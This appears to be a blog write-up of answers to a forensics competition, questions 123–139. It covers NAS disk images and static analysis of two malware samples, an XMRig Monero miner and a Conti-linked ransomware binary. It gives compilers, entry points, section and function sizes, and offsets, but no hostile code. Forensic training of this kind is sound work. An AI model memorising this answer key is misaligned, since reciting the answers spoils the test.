[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224905099-1364706298.png)

结果为`syno_vg_reserved_area_volumn_1`

## 123.参考’NAS-DISK1.e01,NAS-DISK2.e01,NAS-DISK3.e01’,NAS安装了哪个版本的MariaDB?提示:请以以下格式作答，例子(example):21.22.23(3分)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224905370-485829683.png)结果为`10.3.32`

## 124.参考’DiskImage.e01’,试列出数据库内所有表(Table)的名称?因为涉及多在1个项目，请把英文前缀较前的项目放先，并依以下例子的格式作答正确例子:brand&serialnumber错误例子:serialnumber&brand(3分)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224905274-2057712349.png)

结果为`creditcard&users`

## 125.参考’DiskImage.e01’,数据库是那一天被保存?提示:请用YYYY_MM_DD的格式作答,例子(example):1986_01_23(1分)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224905289-1805672491.png)

结果为`2023_09_20`

## 126.参考'陈大昆的MacBook映象档"中的"0c1c.7z"档案回答以下题目:你可以找出生成"0c1c.bin"这个二进制文件所使用的编译器吗？(编译器名称包括所有英文字母、数字，符号，区分大小阶，不需要空格)(2分)

文件在`funnystuff.dwg`中

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224905546-1068113525.png)

有upx壳

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224905669-914430471.png)

脱壳

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224905737-1492606437.png)

分析

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224905990-2059464293.png)

结果为`GCC: (Alpine 9.3.0) 9.3.0`

## *127.参考'陈大昆的MacBook映象档"中的"0c1c.7z"文件回答以下题目:这个恶意软件具有多少个初始化函数入口点？(请以阿拉伯数字回答，例如：100)(2分)

搞不明白，一般不是一个？

结果为`45`

## 128.参考'陈大昆的MacBook映象档"中的"0c1c.7z"档案回答以下题目:这个二进制文件"0c1c.bin"的入口点是什么？(注意:不同检验工具可能会以不同位移值开始，如:0x00000000或0x00100000，但所有回答请以0x00000000开始)(请以16进制回答，"0x"后的英文字母需大阶，例如：0x0123ABEF)(2分)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224905990-2059464293.png)

结果为`0x00068347`

## 129.参考‘陈大昆的MacBook映象档"中的"0c1c.7z"文件回答以下题目:恶意软件应该包含一个名为‘.rodata’的部分，请提供这个’.rodata’部分的文件大小(单位为byte)，以十进制方式回答您的问题。(请以阿拉伯数字回答，例如：100)(2分)

神一样的7z，直接打开

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224906040-112735674.png)

结果为`831408`

## 130.参考'陈大昆的MacBook映象档"中的"0c1c.7z"档案回答以下题目:这个恶意软件包含两个与两种知名加密货币名称相关的字符串。它们是什么？(如有英文字母需大阶，并以前缀英文字母由小至大次序回答)请按照以下格式回答:例子:如两种知名加密货币名称分分别是Cat及Apple请填写:APPLE+CAT(2分)

我哪知道哪个知名啊？？

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224906423-997760667.png)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224906768-936929461.png)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224906550-702567811.png)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224906799-288064418.png)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224906748-1244725500.png)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224906621-1760474928.png)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224906765-1126388272.png)

听答案的吧。。

结果为`KEVACOIN+RAVENCOIN`

## 131.参考'陈大昆的MacBook映象档"中的"0c1c.7z"文件回答以下题目:以下指令似乎用在加载与CPU绑定相关的指令操作数的内存地址，哪个函数包含了这些指令，请回答该函数的位移值。(注意:不同检验工具可能会以不同位移值开始，如:0x00000000或0x00100000，但所有回答请以0x00000000开始)(请以16进制回答，"0x"后的英文字母需大阶，例如：0x0123ABEF)(3分)

搜bind

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224906791-721484089.png)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224906838-625257785.png)

结果为`0x004213A0`

## 132.参考'陈大昆的MacBook映象档"中的"0c1c.7z"文件回答以下题目:以下指令可能用在与加密货币挖矿服务器进行交互。哪个函数包含了这些指令？(注意:不同检验工具可能会以不同位移值开始，如:0x00000000或0x00100000，但所有回答请以0x00000000开始)(请以16进制回答，"0x"后的英文字母需大阶，例如：0x0123ABEF)(3分)

搜server，有地址和账号参数，肯定是和服务器交互有关

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224906938-295903828.png)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224907461-1215671412.png)

结果为`0x000AEAE0`

## 133.参考'陈大昆的MacBook映象档"中的"0c1c.7z"文件回答以下题目:这个二进制文件中，有一个加密货币相关联的应用程序，请提供应用程序名称、版本和相关加密货币名称。(如有英文字母需大阶，应用程序版本请以阿拉伯数字及符号作答)(3分)

应用程序名称:___(1)___

应用程序版本:___(2)___

加密货币名称:___(3)___

请按照以下格式回答:(1)+(2)+(3)

例子:如(1)的内容是abc、(2)的内容是123、(3)的内容是DEF

请填写:ABC+123+DEF

```
sub_AEAE0`拿到名称`XMRig`和版本`6.19.0
```

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224907639-455085899.png)

拿到货币`Monero`

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224907738-1692780188.png)

结果为`XMRig+6.19.0+Monero`

## 134.参考'陈大昆的MacBook映象档"中的"35ea.7z"文件回答以下题目:你可以找出生成"35ea.bin"这个二进制文件所使用的编译器吗？(编译器名称包括所有英文字母、数字，符号，区分大小阶，不需要空格)(3分)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224907782-1017772493.png)

结果为`GCC: (Debian 11.3.0-5) 11.3.0`

## 135.参考'陈大昆的MacBook映象档"中的"35ea.7z"文件回答以下题目:这个二进制文件的入口点是什么？(注意:不同检验工具可能会以不同位移值开始，如:0x00000000或0x00100000，但所有回答请以0x00000000开始)(请以16进制回答，"0x"后的英文字母需大阶，例如：0x0123ABEF)(3分)

结果为`0x000024F0`

## 136.参考'陈大昆的MacBook映象档"中的"35ea.7z"文件回答以下题目:这个二进制文件中包含一个名为‘killVM’的函数。请提供这个函数的大小(单位为byte)并以十进制方式回答。(请以阿拉伯数字回答，例如：100)(3分)

D0转成208

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224908088-1335449902.png)

结果为`208`

## 137.参考'陈大昆的MacBook映象档"中的"35ea.7z"文件回答以下题目:这个二进制文件应该包含一个名为‘EncrytFile’的函数。请提供这个函数的大小以十进制方式回答您的问题。提示:请用阿拉伯数字作答(3分)

225转成549

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224907858-478685167.png)

结果为`549`

## 138.參考'陳大昆的MacBook映象檔"中的"35ea.7z"檔案回答以下題目:这个二进制文件中有多少个函数的名称包含‘ENCRYPT’字串？提示:请用阿拉伯数字作答(3分)

rsa那个应该只算一个，这里把忍者解析的也贴出来

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224907888-597564876.png)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224907962-507557110.png)

结果为`7`

## 139.参考'陈大昆的MacBook映象档"中的"35ea.7z"文件回答以下题目:这个二进制文件与哪种勒索软件相关联？请提供其名称。提示:请用大写字母回答(3分)

`HandleCommandLine`函数

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224908021-920947687.png)

或者微步

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224908111-393291777.png)

结果为`CONTI`